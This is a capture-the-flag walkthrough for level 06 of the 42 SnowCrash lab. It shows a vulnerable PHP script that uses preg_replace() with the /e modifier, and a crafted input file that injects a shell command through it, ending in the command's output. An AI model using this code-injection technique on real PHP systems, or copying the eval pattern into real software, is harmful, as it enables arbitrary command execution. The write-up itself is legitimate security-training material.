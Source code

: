 ```yaml
---
title: 42 SnowCrash Level06 - Walkthrough 🤖
tags:
  - ctf
  - 42Project
  - snowcrash
  - php
  - exploit
  - app-script
categories:
  - ctfs
  - 42project
date: 2024-05-18 15:08:30
---
```


![snowcrash](/images/snowcrash.png)

## Introduction:
In level 06, we exploit a PHP script (`level06.php`) that heavily uses the `preg_replace()` function. By crafting a specific input file, we execute arbitrary commands to obtain the flag.

### Steps:

1. **Examining the PHP Script:**
   We inspect the contents of the `level06.php` script:

   ```php
   <?php
   function y($m) 
   {
       $m = preg_replace("/\./", " x ", $m);
       $m = preg_replace("/@/", " y", $m); 
       return $m; 
   }
   function x($y, $z)
   { 
       $a = file_get_contents($y);
       $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
       $a = preg_replace("/\[/", "(", $a);
       $a = preg_replace("/\]/", ")", $a);
       return $a;
   }
   $r = x($argv[1], $argv[2]);
   print $r;
   ?>
   ```
   
   The script defines two functions, x() and y(), and uses preg_replace() extensively. The critical line is:
   
   ```php
   $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
   ```
   It evaluates the result of the y() function on the content within [x ...].

2. Crafting Input File:
    We create a file containing the command we want to execute, wrapped in [x ${...} ]:

    ```shell
    level06@SnowCrash:~$ echo -e "[x \${\`getflag\`}]" > /tmp/test
    ```
3. Exploiting the Script:
    We execute the script with the crafted input file:
    ```
    level06@SnowCrash:~$ ./level06 /tmp/test aaa
    PHP Notice:  Undefined variable: Check flag.Here is your token : **********************
    in /home/user/level06/level06.php(4) : regexp code on line 1
    ```
    The script executes the getflag command within the PHP environment and displays the flag.

# Conclusion
By understanding the behavior of the level06.php script and exploiting its use of preg_replace() with the /e modifier, we successfully executed arbitrary commands and obtained the flag for level 06.

